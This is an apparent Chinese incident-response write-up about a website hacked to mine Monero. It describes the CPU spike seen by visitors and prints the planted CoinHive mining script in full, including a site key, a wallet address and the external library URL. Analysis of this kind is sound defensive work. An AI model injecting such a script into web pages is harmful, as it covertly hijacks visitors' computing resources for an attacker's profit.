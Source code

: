 门罗币(Monero 或 XMR)，它是一个非常注重于隐私、匿名性和不可跟踪的加密数字货币。只需在网页中配置好js脚本，打开网页就可以挖矿，是一种非常简单的挖矿方式，而通过这种恶意挖矿获取数字货币是黑灰色产业获取收益的重要途径。


# 0X00 现象描述
利用XMR恶意挖矿，会大量占用用户的CPU资源，严重影响了网站的用户体验。

从08/09日0点开始，局域网内某IP访问网站页面会触发安全预警，只要访问此服务器上的网页，CPU直线上升100%<br />![2-5.jpg](/_img\05-应急响应/1656922927988-b035140e-3cea-4b70-bb7f-e6c8228000c0.jpeg)


# 0X01 问题解析
通过获取恶意网页url，对网页页面进行分析，发现网站页面被植入在线门罗币挖矿代码：<br />`<script>     var script = document.createElement('script');      script.onload = function () {           // XMR Pool hash   		var m = new CoinHive.Anonymous('BUSbODwUSryGnrIwy3o6Fhz1wsdz3ZNu');          // TODO: Replace the below string with wallet string   		m.start('47DuVLx9UuD1gEk3M4Wge1BwQyadQs5fTew8Q3Cxi95c8W7tKTXykgDfj7HVr9aCzzUNb9vA6eZ3eJCXE9yzhmTn1bjACGK');       };       script.src = 'https://coinhive.com/lib/coinhive.min.js';       document.head.appendChild(script);   </script>`

删除js里面的恶意代码，网站被XMR 恶意挖矿，服务器已经被攻击，进一步做服务器入侵排查。
